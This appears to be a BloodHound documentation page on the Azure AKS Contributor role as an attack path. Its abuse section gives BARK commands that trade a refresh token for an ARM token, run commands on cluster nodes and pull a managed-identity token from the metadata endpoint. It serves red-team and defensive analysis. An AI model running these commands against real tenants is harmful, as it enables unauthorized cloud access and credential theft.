 ---
title: AZAKSContributor
description: "The Azure Kubernetes Service Contributor role grants full control of the target Azure Kubernetes Service Managed Cluster."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


 This includes the ability to remotely fetch administrator credentials for the cluster as well as the ability to execute arbitrary commands on compute nodes associated with the AKS Managed Cluster.

## Abuse Info

You can use BARK’s Invoke-AzureRMAKSRunCommand function to execute commands on compute nodes associated with the target AKS Managed Cluster.

This function requires you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to execute commands on the cluster. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```

Now you can use BARK’s Invoke-AzureRMAKSRunCommand function to execute a command against the target AKS Managed Cluster. For example, to run a simple “whoami” command:

```bash
Invoke-AzureRMAKSRunCommand `
    -Token $ARMToken `
    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
    -Command "whoami"
```
If the AKS Cluster or its associated Virtual Machine Scale Sets have managed identity assignments, you can use BARK’s Invoke-AzureRMAKSRunCommand function to retrieve a JWT for the managed identity Service Principal like this:

```bash
Invoke-AzureRMAKSRunCommand `
    -Token $ARMToken `
    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
    -Command \\'curl -i -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?resource=https://graph.microsoft.com/&api-version=2019-08-01"\\'
```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References

* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/](https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/)
